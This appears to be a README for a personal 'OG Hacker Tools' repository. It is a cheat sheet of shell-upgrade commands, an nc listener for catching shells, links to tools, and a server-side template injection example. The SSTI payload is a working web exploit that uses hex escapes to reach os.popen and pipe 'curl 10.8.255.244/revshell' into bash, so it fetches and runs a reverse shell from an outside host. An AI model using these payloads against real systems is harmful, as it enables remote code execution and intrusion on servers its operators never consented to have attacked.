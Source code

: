 # OG Hacker Tools
This repository contains tools used for various types of hacking, and basic information about their usage.

## Upgrade Shell

### Option 1
``` 
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

### Option 2
```
rlwrap nc -lvnp 9001
stty raw -echo; fg
```

## Static Binaries

https://github.com/andrew-d/static-binaries

## Malware Analysis

PECheck - See info on PEHeader

PETree - See info on PeHeader in a GUI

Cuckoo Sandbox - https://cuckoosandbox.org/ 

REMnux - Distro for analysis of malware

## SSTI - Server Side Template Injection

Example in Python:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.255.244/revshell | bash")|attr("read")()}}
```


## Red Team Toolkit

https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development
